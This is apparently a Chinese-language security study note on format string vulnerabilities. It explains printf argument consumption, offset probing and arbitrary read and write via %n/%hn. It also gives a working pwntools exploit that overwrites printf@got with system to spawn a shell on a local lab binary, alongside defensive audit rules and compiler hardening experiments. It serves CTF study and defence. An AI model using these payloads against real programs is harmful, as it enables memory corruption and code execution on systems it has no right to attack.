



# 23. 格式化字符串漏洞

> 日期：2026-11-04
> 所属大纲阶段：4. 系统与二进制安全
> 参考资料：
> - Tim Newsham,《Format String Attacks》（2000，该漏洞类的奠基分析）
> - glibc 手册：Formatted Output Functions（printf 家族规范）
> - CWE-134（Use of Externally-Controlled Format String），MITRE
> - 《CTF 权威指南：Pwn》格式化字符串章节
> - pwntools 文档：fmtstr 模块（fmtstr_payload / FmtStr）
> - scut / team teso,《Exploiting Format String Vulnerabilities》（2001 经典长文）

**声明：本篇全部靶机与脚本仅用于本地学习环境与 CTF 题目。**

---

## 1. printf 家族与格式化说明符

**格式化字符串漏洞（Format String Vulnerity，CWE-134）**：把**用户输入直接当格式串**传给格式化函数。先备齐弹药——printf 家族与说明符大全。

printf 家族成员：`printf / fprintf / sprintf / snprintf / vfprintf / syslog(...) / err()/warn()`（BSD 系）等，凡是第一个参数被当作格式的，全部同病。

### 1.1 说明符大全表

| 说明符 | 含义 | 输出/副作用 | 利用价值 |
|--------|------|-------------|----------|
| `%d` / `%i` | 有符号十进制整数 | 按参数打印 int | 探测 |
| `%u` | 无符号十进制 | 同上 | 探测 |
| `%x` | 十六进制整数（无 0x 前缀） | 打印 4 字节（int 大小） | 泄露/探测主力（64 位常配 `%lx`，pwn 习惯用 `%p`） |
| `%p` | 指针 | 打印指针值（带 0x 前缀） | 泄露栈/堆/库指针 |
| `%s` | 字符串 | **把参数当地址，打印指向的字符串直到 \0** | 任意读！ |
| `%c` | 单字符 | 输出一个字符（宽度可配合 `%.Nx` 用作「打印 N 个字符」的填充） | 写值时的字数填充器 |
| `%n` | **写**已输出字节数 | **把已输出字符数写入参数所指数的 int** | 任意写！ |
| `%hn` | 同上（short，2 字节） | 写低 16 位 | 分段写的主力 |
| `%hhn` | 同上（char，1 字节） | 写低 8 位 | 精确小改写 |
| `%ln/%lln` | 8 字节写 | 写 long/long long | 少用（字数要求过大） |
| `%f/%e/%g` | 浮点 | 读双精度参数 | 探测 xmm 用途不大 |
| `%10$p` | **定位参数**（positional） | 打印第 10 个参数（从格式串后第 1 个数起） | 精确定位、避免长 `%p` 链 |
| `%*10$d` | 星号宽度取自第 10 参 | 动态宽度 | 少见技巧 |
| `%.100d` 或 `%100c` | 宽度/精度 100 | 强制输出 100 个字符（补空格） | 配合 %n 凑字数 |

记忆锚点：**读三件套 `%p / %x / %s`，写三件套 `%n / %hn / %hhn`，定位靠 `%k$`，凑数靠 `%Nc`。**

---

## 2. 漏洞成因

正确写法 vs 错误写法：

```c
printf("%s", user_input);   // 正确：格式串常量，输入只是数据
printf(user_input);         // 错误：输入里的 %x/%n 都会被 printf 解释执行
```

一句话成因：**变参函数没有参数个数/类型信息，一切听从格式串指挥**。格式串说 `%p`，printf 就按约定从寄存器/栈上取「下一个参数」打印；说 `%n`，就把计数写入那个「参数」。当格式串可控时，等于攻击者坐上了指挥席。

高发场景：

```c
printf(buf);                 // 最经典
sprintf(out, buf);           // 同罪（写到 out 前先被解释）
fprintf(stderr, buf);
syslog(LOG_ERR, buf);        // 服务程序常见
snprintf(dst, len, buf);     // 也错！第三个参数才是格式串
printf(buf_str.c_str());     // C++ 一樣中招
```

---

## 3. printf 栈消费原理详解

### 3.1 变参的读取约定（System V AMD64）

printf 是**变参函数（variadic function）**。x86-64 调用约定下，变参的整数参数仍按寄存器顺序流动：**格式串在 rdi**，第 1~5 个可变参数依次在 **rsi、rdx、rcx、r8、r9**，第 6 个起在**栈上**（调用前压栈，从 rsp 向高地址排）。

printf 逐个处理格式串中的说明符时，维护一个「下一参数」游标：第 1 个 `%p` 读 rsi，第 2 个读 rdx……第 6 个起读栈。**而调用方根本没有传这些参数**——printf 不知道也不检查，它只是照约定把寄存器/栈上**残留的值**当作参数消费。

### 3.2 消费图（配图）



（注：图中 %6$ 的具体序号取决于缓冲区在栈中的相对位置，必须实测，见 §4。）

---

## 4. 手工探测与偏移计算

### 4.1 经典探针

```text
靶机：echo 'AAAAAAAA%p%p%p%p%p%p%p%p' | ./fmt
输出：AAAAAAAA0x7f...(rsi)0x...(rdx)0x...(rcx)0x...(r8)0x...(r9)0x4141414141414141→发现 0x4141414141414141
```

`0x4141414141414141` 出现在第几个 `%p`，说明输入缓冲区开头落在第几个参数位。图中它出现在第 6 个 → **偏移 offset = 6**。此后 `%6$p` 直接引用输入首 4/8 字节。

更精确的探测（推荐 cyclic）：

```python
from pwn import *
context.arch = 'amd64'
p = process('./fmt')
p.sendline(cyclic(0x80))
data = p.recvall()
# 找到输出中的 cyclic 子串（如 'kaaa'）→ cyclic_find → 缓冲区首字节的参数序号
```

pwntools 自动探测类：

```python
def exec_fmt(payload):
    p = process('./fmt')
    p.sendline(payload)
    return p.recvall()
fmt = FmtStr(exec_fmt)          # 自动打探针、计算 offset
offset = fmt.offset
```

### 4.2 为什么用 %k$ 定位参数

`%6$p` 一次读一个指定参数，比一长串 `%p%p%p...` 干净；且**配合后面的 %hn 写**必须精确定位（写操作要把地址放在确切槽位）。

### 4.3 32 位与 64 位的差异速查

| 差异点 | 32 位（i386） | 64 位（x86-64） |
|--------|----------------|------------------|
| 可变参数位置 | **全部在栈上**（调用方从右往左压栈），%k$ 从栈顶直接数 | 前 5 个在 rsi/rdx/rcx/r8/r9，第 6 个起才在栈上 |
| 偏移典型值 | 较小（4~10 常见，缓冲区常在参数区开头附近） | 较大（6~10 起步，常见 8~40） |
| 一个地址占几个参数槽 | 4 字节 = 1 槽（DWord） | 8 字节 = 1 槽，且必须**对齐到 8 字节边界**（差 1 拍全错） |
| %x 泄露粒度 | 一次 4 字节，天然合用 | 需 `%lx`/`%p`，`%x` 只取低 32 位 |
| %hn 写 4 字节 | 两次 %hn 搞定（写两个 16 位半字） | 同样两次 %hn；但地址含 `\x00\x00`（0x00007f…）更易截断输入 |
| payload 风格 | 地址常可放在**前面**（`p32(addr)+'%N$hn'`） | 地址通常放**尾部**（前面是格式部分+对齐填充） |

经验：64 位题第一件事是**把 offset 和「p64 落在第几槽」分开测**——offset 是缓冲区起点序号，写入的地址末尾还要再对齐；两者差一拍是新手最大翻车点。

---

## 5. 任意读

### 5.1 读栈：%k$p 逐格扒

`%7$p %8$p %9$p ...` 逐个打印栈上残留——常见收获：栈地址、libc 地址（__libc_start_main 的返回地址等）、canary（rbp-0x8 附近一坨以 \x00 结尾的值）。

### 5.2 读任意地址：栈上指针的间接引用

`%s` 把参数**当作指针**解引用。把目标地址放进某个参数槽（输入本身就在参数区里！），再用 `%k$s` 引用该槽：

```python
payload = b'%8$s' + b'A'*2 + p64(elf.got['puts'])
#          └格式部分┘└对齐┘└地址落在第 8 个参数槽（offset+? 按实测对齐计算）
```

输出即 puts 函数真实地址的**字符串形态**（地址含 \0 会截断，实战更常打印固定长度）——更稳的做法是配合 `%7$s` + 已知「栈上已有指针」的槽位。本节演示「读 GOT 拿 libc 基址」的完整版：

```text
目标：读 puts@got（0x404018）内容 → libc 基址
payload = p64(puts_got) + b'%6$s'   （若 offset=6 且缓冲区从参数 6 开始）
执行：printf(buf)
  → 先原样输出地址 8 字节（无 %，不可见/乱码无所谓）
  → %6$s：取第 6 参 = buf 开头 8 字节 = puts_got → 打印该处字符串
收流：跳过前 8 个乱码字节，取 6 字节 + b'\x00\x00' → u64 → puts 真实地址
```

（地址里的 `\x00` 截断、对齐差一拍等问题，用 `fmtstr` 或调整 padding 解决；教学题多为 32 位或直接给了 %s 友好布局。）

---

## 6. 任意写详解（%n）

### 6.1 %n 的语义

`%n` 把「**此前已输出的字符总数**」写入参数指向的 int。于是写值 = **先打印那么多字符再触发 %n**。打印巨量字符用**宽度**制造：`%100c` 打印 100 个字符（99 空格 + 1 个被转字符）而 payload 极短。

### 6.2 %hn 分两次写四字节（step by step 完整例子）

目标：把 `0xdeadbeef` 写入 `0x404060`（假设可写、offset=6、目标值拆两半）。

```text
拆分：低 16 位 0xbeef → 写到 0x404060
      高 16 位 0xdead → 写到 0x404062
字数：0xbeef = 48879；0xdead = 57005
      先写小的再写大的？——printf 顺序输出，第二次的计数从 0 重新累计不行，
      %n 记录的是【累计】总数：48879 → 57005 只需再输出 8126 个字符。
```

payload 骨架（格式部分在前、地址部分在后对齐到参数槽；设地址落在第 10/11 槽，即 `%10$hn`/`%11$hn`——**实际槽号按 4.1 方法实测**）：



要点：

- **累计计数**：`%n` 用的是从头到现在的总输出数，第二段只需补差额；
- 写完 `0xbeef` 时高半还没动（`%hn` 只碰 2 字节），最后拼成 `0x00000000deadbeef`；
- 若目标原高 32 位非零（如已在 libc 中），只写低 2~3 字节即可，字数需求骤降——实战**先算能少写就少写**；
- `%hhn`（1 字节）四段式适合精确小改（如把某 GOT 低字节改成 one_gadget 同页偏移）。

### 6.3 自指向技巧：把地址写进输入，让 %k$n 引用它

写操作需要「地址恰好落在参数槽」。由于**输入缓冲区本身就在参数区**，直接把地址嵌进输入、计算其槽号即可——不需要额外的传参 gadget：



若格式部分不是 8 的倍数，补 `A` 到对齐——差 1 个槽（差 8 字节）是最常见的翻车点。

### 6.4 典型用法一：改 GOT（printf@got → system）

针对 `printf(buf)` 型靶机，把 printf 自己的 GOT 改成 system，下一轮输入 `/bin/sh`：

```text
第一轮：fmtstr 覆盖 printf@got = system_addr（Partial RELRO 才可写！）
第二轮：sendline(b'/bin/sh') → printf("/bin/sh") 实际执行 system("/bin/sh") → shell
```

优点：绕开 ROP，不需要栈溢出；system/printf 同 libc 时往往只需覆写低 3 字节。

### 6.5 典型用法二：改写栈上残留的返回地址

用 `%k$p` 先扒出栈上保存的**返回地址所在槽**（它本身是个栈地址的值在别的槽里——两跳：`%s` 读出返回地址所在栈位置）。之后把 `%n` 的目标指向那个栈槽，直接把 main 返回地址改成 one_gadget/ROP 链入口。链路：**泄露栈地址 → 定位返回地址槽 → %hn 改写**。比改 GOT 繁琐，但 Full RELRO 下依然可用（GOT 只读，栈不能只读）。

---

## 7. pwntools fmtstr_payload 自动化

```python
from pwn import *

# fmtstr_payload(offset, {目标地址: 想写的值}, write_size='auto')
payload = fmtstr_payload(6, {0x404018: 0x7f1234567890})
# 参数：
#   offset      —— §4 实测的偏移（第一个可变参数序号）
#   {addr:val}  —— 支持同时写多个地址
#   write_size  —— 'byte'/'short'/'int'，默认自动挑最小代价方案
#   numbwritten —— 此前已输出字符数（比如提示符先打了 4 个字符则填 4）
# 例：print(fmtstr_payload(6, {0x404018: 0xdeadbeef}, write_size='short'))

p = process('./fmt')
p.sendline(payload)            # printf(buf) 触发写
p.sendline(b'/bin/sh')         # 若改的是 printf@got→system，这行直接 getshell
p.interactive()
```

注意：自动 payload 长度可能超过靶机 read 长度限制，超限时手动 `%hhn` 四段式更短；`write_size='byte'` 输出最长的字数但 payload 字符最少时反之要权衡。

---

## 8. 教学例题 walkthrough（仅限本地学习环境）

靶机（glibc 2.31，Ubuntu 20.04 编译）：

```c
// fmt.c —— 教学靶机，仅限本地学习环境
#include <stdio.h>
#include <unistd.h>

int main(void) {
    char buf[0x80];
    setvbuf(stdout, 0, 2, 0);
    while (1) {
        int n = read(0, buf, 0x7f);
        buf[n] = 0;
        printf(buf);               // 漏洞点
        putchar('\n');
    }
}
```

```bash
gcc -O0 -no-pie -Wno-format-security -o fmt fmt.c   # -Wno-format-security 压掉警告（模拟老代码）
checksec --file=./fmt   # No PIE、Partial RELRO、NX on → fmtstr 改 GOT 路线成立
```

**第 1 步 定偏移：**

```text
$ echo 'AAAAAAAA%p%p%p%p%p%p%p%p' | ./fmt
AAAAAAAA0x7f...0x7f...0x5602e0 0x7f0 0xffffffff 0x4141414141414141 ...
                                          ↑ 第 6 个 %p → offset = 6
```

**第 2 步 任意读验证（读 puts@got 拿 libc）：**

```python
payload = b'%7$sAAAA' + p64(elf.got['puts'])  # 4+4+8=16 字节：%7$sAAAA 恰占第 6 槽，p64 地址完整落在第 7 槽
```

（槽位随对齐差动，用 `%6$p/%7$p` 打印确认 p64 落点后再用对应 `%k$s`。）

**第 3 步 改 GOT → getshell 完整 exp：**

```python
#!/usr/bin/env python3
# exp_fmt.py —— 仅限本地学习环境
from pwn import *

context(arch='amd64', os='linux', log_level='info')

elf  = ELF('./fmt')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')     # 与靶机一致
p    = process('./fmt')

offset = 6

# ---- 泄露 puts 真实地址（用 %s 读 GOT；处理含 \x00 截断：打印 8 字节两半亦可，
#      教学环境演示用 %p 读栈上现成 libc 指针的同款思路，此处从简用 puts 泄露）----
p.sendline(b'%9$p')                    # 实测某槽为 __libc_start_main+xxx
libc_leak = int(p.recvline(), 16)
libc.address = libc_leak - (libc.symbols['__libc_start_main'] + 0xf3)  # 偏移以 libc 对应版本为准
log.success('libc base = %#x', libc.address)

system_addr = libc.symbols['system']
printf_got  = elf.got['printf']

# ---- 覆写 printf@got → system ----
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size='short')
p.sendline(payload)

# ---- printf(buf) 变 system(buf) ----
p.sendline(b'/bin/sh')
p.interactive()                        # $ id 验证
```

**动线中的 gdb 验证（教学建议补做）**：发 payload 前先在 gdb 里确认写落点。

```text
pwndbg> b *0x4011b6        # 断在 printf 调用前后（printf@plt 或 read 之后）
pwndbg> r
pwndbg> ni                 # 执行完 printf(buf) 后
pwndbg> x/gx 0x404018      # 查看 printf@got
0x404018:    0x00007f9d0a849290     ← 已被改成 system！
pwndbg> info symbol 0x00007f9d0a849290
system in section .text of /lib/x86_64-linux-gnu/libc.so.6
```

动手链：**探测（偏移）→ 泄露（libc）→ 改写（GOT）→ 验证（gdb 看 GOT 值）→ 触发（/bin/sh）**，比 ROP 题少一次「返回再利用」，但多了「字数对账」的算术活。

动线总结：**探测偏移 → 泄露 libc → fmtstr_payload 改 GOT → 二次输入 getshell**。与 ROP 题共享「先泄露后攻击」的总规律。

---

## 9. 漏洞发掘（防御者视角）

### 9.1 代码审查规则

```text
1. 正则搜：grep -rnE "(printf|fprintf|sprintf|snprintf|syslog|err|warn)\s*\(\s*[a-zA-Z_][a-zA-Z0-9_.>-]*\s*[,)]" src/
   —— 第一实参不是字符串字面量即人工复核；
2. C++ 注意 .c_str() 直接传第一参；
3. 日志宏：LOG_INFO(msg) 型封装常把 msg 下传给 syslog → 传染性放大；
4. 多语言调用 C 库：Python 的 '%x' % x 不经 printf，但 ctypes 调 printf 会。
```

### 9.2 编译器与运行时防线

| 防线 | 说明 | 局限 |
|------|------|------|
| `-Wformat`（gcc/clang 默认开） | 非字面量格式串给 warning | `printf(buf)` 有告警；被强制转换/函数指针中转会漏 |
| `-Wformat-security`（-Wformat 子集） | 只报「无格式参数的可疑调用」 | 老代码库常被无视 |
| `-Werror=format-security` | 升级为错误 | 打包发行版的底线选项 |
| `-D_FORTIFY_SOURCE=1/2`（配 -O） | 编译期把 `printf(buf)` 换成 `__printf_chk`：运行时发现格式串在**可写段**且含 `%n` → abort | 只拦「格式串可写 + %n」组合；读类泄露仍可能 |
| `__attribute__((format(printf,1,2)))` | 给自定义日志函数声明格式检查，编译期抓错 | 需要开发者主动加 |

**根治**只有一条：**永远 `printf("%s", buf)`**——格式串必须是编译期常量。

---

## 10. 其他格式化函数的同类问题

```c
sprintf(dst, buf);                       // 同罪：buf 被当格式串解释后才拷贝
snprintf(dst, sizeof(dst), buf);         // 同罪（第三参才是格式串）
fprintf(stderr, buf);                    // 报错路径常中招，且不易被测到
syslog(LOG_WARNING, buf);                // 守护进程经典：日志内容含 % 即触发
errx(1, buf);  warn(buf);                // BSD err 家族，第一个 fmt 参
printf(buf) 的 C++ 形态：cout 不受影响，但 printf/format 类库同罪
```

审查时对「日志/错误输出」路径加倍留心：它们通常接收用户可控数据、又不在主流程测试覆盖内。

---

## 11. 真实案例

- **wu-ftpd / ProFTPD 时代（2000 年前后）**：格式化字符串漏洞集中爆发（SITE EXEC 等把用户输入交给 snprintf），直接催生 Newsham 的分析与 teso 的系统化论文——该漏洞类别从此进入教科书。
- **CVE-2012-0809（sudo 1.8.0~1.8.3p1）**：sudo 处理 `argv[0]` 时把它当格式串传给 printf 类函数（如调用 `sudo -S -p` 特定参数时），本地用户可借 `%n` 破坏内存提权。教训：**不只有 stdin 算用户输入，argv、环境变量、文件名都是**。
- **PS4 逃逸（公开研究案例）**：PS4 系统基于 FreeBSD，安全研究者公开分析过其系统组件（如内核向用户态暴露的日志/字符串处理路径）中的格式化字符串缺陷被用作用户态→内核攻击链的组成部分，配合后续内核漏洞完成越权。该案例说明：封闭主机平台上，一个「不起眼」的 printf 缺陷同样能成为整个越狱链条的第一块多米诺（细节见当年公开 writeup，学习重点是**链式思维**）。
- 共同规律：格式化字符串漏洞**威力上限极高**（直接任意读写），常被当作「第一跳」，用于泄露 ASLR 基址或破坏安全变量，再衔接第二跳完成代码执行。

### 11.1 引申：盲格式化串（Blind Format String）

**盲格式化串**：程序的输出**回显受限**——比如格式串结果只写进日志/以返回码体现（「有输出 = 命中，无输出 = 未命中」），攻击者拿不到打印内容。典型场景：远程服务把 `syslog(buf)` 的结果只记在服务端、或网络服务对每个请求只回 `ok/fail`。

思路转变：从「读回数据」变成**布尔 Oracle**——用 `%k$c` 之类的结构配合判断条件（如某个地址是否可解引用：崩溃=否、有响应=是），把任意读降级成**逐位猜测**：

```text
判断栈上第 k 个指针的某个字节是否为 X：
  构造 fmt 使「该字节==X 时才输出/不崩溃」→ 一次布尔问答 → 8 次得 1 字节
盲写同理：%hn 的字数对不上也不回显，全靠字典与固定提示长度来记账
```

要点：① 输出侧信息被掐断时格式化串**未必失效**，布尔化仍可攻击；② 防御侧仅靠「不回显」是虚假安全感，根治仍在 §12 的编码与编译防线。CTF 中 blind pwn 类题目即以此为考点（配合逐字节爆破 canary/地址）。

---

## 12. 防御专章汇总

| 层次 | 措施 |
|------|------|
| 编码规范 | 格式串必须是字面量；`printf("%s", buf)` 是唯一正确姿势 |
| 编译期 | `-Wall -Wformat -Wformat-security -Werror=format-security`；自定义封装加 `format` 属性 |
| 运行时 | `-D_FORTIFY_SOURCE=2`（拦可写格式串 + %n）；Full RELRO 封 GOT 改写路线 |
| 架构 | 日志库统一 API：`log_info(const char *fmt, ...)` 强制 fmt 参数位；CI 加 grep/clang-tidy 规则 |
| 语言层面 | 现代语言（Rust/Go/Python f-string）不存在无格式参数的 printf 形态 |

---

## 12.5 动手实验：亲手验证三道防线（仅限本地学习环境）

把 §9 的防线逐条变成可观察的实验（同一个 fmt.c，改编译选项对比）：

```bash
# 实验 1：编译期告警
gcc -O0 -no-pie -o fmt fmt.c
# 输出警告：format not a string literal, argument type not checked [-Wformat=]
# → -Wformat 默认在 -Wall 之外也会开；CI 里把它升级为错误：
gcc -Wall -Werror=format-security -o fmt fmt.c    # 直接编译失败，把缺陷挡在合入前

# 实验 2：FORTIFY_SOURCE 拦 %n
gcc -O1 -D_FORTIFY_SOURCE=2 -Wno-format-security -o fmt_fortify fmt.c
echo 'AAAA%n' | ./fmt_fortify
# *** %n in writable segment detected ***  → __printf_chk 主动 abort（只拦“格式串可写+%n”）
echo 'AAAA%p%p%p' | ./fmt_fortify
# 仍能正常打印栈数据 → 证明 FORTIFY 管不住“读类”泄露，不能当唯一防线

# 实验 3：Full RELRO 封 GOT 改写
gcc -O0 -no-pie -Wl,-z,relro,-z,now -Wno-format-security -o fmt_relro fmt.c
checksec --file=./fmt_relro        # RELRO: Full RELRO
# 用 fmtstr_payload 改 printf@got → 程序直接 SIGSEGV（GOT 只读）
# → 换目标：打栈上返回地址（§6.5 路线）依然可行 → 防御是纵深，不是免死金牌
```

三个实验分别对应「编码规范」「运行时检查」「内存布局加固」三层；跑一遍后对 §9 表格里每行的「局限」列会有体感。

---

## 13. 常见坑

1. **偏移没实测就抄 payload**：栈布局随编译器/缓冲区位置变化，`%6$` 在别人环境正确、在你这差一槽全错。每个靶机跑一遍 `AAAA%p...`。
2. **地址含 \x00 被 read 截断**：输入里的 p64 地址放在 payload **尾部**（前面是格式部分），或分两次发送；`%s` 读到的字符串遇 \0 停，泄露 6 字节地址要 `ljust`。
3. **%n 字数没算累计**：第二个 `%hn` 的宽度应填「目标值 - 此前总输出数」，直接填目标值必错。
4. **写 0x10000 级别的值用 %hn**：printf 要真打印 6 万字符，带宽/缓冲区可能撑爆；改用 `%hhn` 四段或只写必要低位。
5. **Full RELRO 下打 GOT**：GOT 只读，写入直接 SIGSEGV；改打栈上返回地址或 `__free_hook`（glibc ≤2.33）。
6. **fmtstr_payload 超长被截断**：read 限制 0x7f 字节而 payload 0x90 字节——换 `write_size='short'/'byte'` 或手动分段。
7. **本地 libc 与靶机不一致**：泄露算基址的偏移不同（同笔记 21/22 坑）。
8. **`printf(buf)` 的 buf 以 \n 结尾**：`%n` 前的换行也算已输出字符数（numbwritten 记得 +1），差 1 个字就写错。

---

## 14. 自测问题

1. 解释变参函数为什么无法校验参数个数与类型；这一「特性」如何被格式化字符串漏洞利用？
2. x86-64 下 printf 的第 1~5 个可变参数从哪取？第 6 个起呢？
3. `%n`、`%hn`、`%hhn` 分别写几个字节？各自适合什么场景？
4. 探测输出 `AAAA0x1 0x2 0x3 0x4 0x5 0x41414141`，offset 是多少？写出读取 buf 后第 3 个参数槽的说明符。
5. 要把 0x08048561 写入 0x0804a024（32 位，offset=7），用两次 `%hn` 时各段宽度如何计算？
6. 描述「改 printf@got 为 system」攻击的完整两步流程，以及它为什么要求 Partial RELRO。
7. `_FORTIFY_SOURCE` 拦得住 `%s` 泄露吗？拦得住什么？
8. 为什么说格式化字符串漏洞是「第一跳」？它与 ROP 题（笔记 22）在信息泄露环节上如何互补？
9. 写出三条代码审查规则，能覆盖本篇第 2 节列举的高发场景。
10. PS4/sudo 案例共同说明「用户输入」还包括哪些渠道？

---

（完。下一篇：`24-二进制分析工具-gdb-pwndbg-ghidra-objdump.md`——把前四篇的方法论装进工具箱。）

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「3.2 消费图（配图）」节 · printf 调用时的参数消费大图（寄存器区+栈区） | flowchart TD |
| 「6.2 %hn 分两次写四字节（step by step 完整例子）」节 · payload 组成图 | flowchart LR |
| 「6.3 自指向技巧：把地址写进输入，让 %k$n 引用它」节 · 输入缓冲区与参数槽对应图 | flowchart TD |
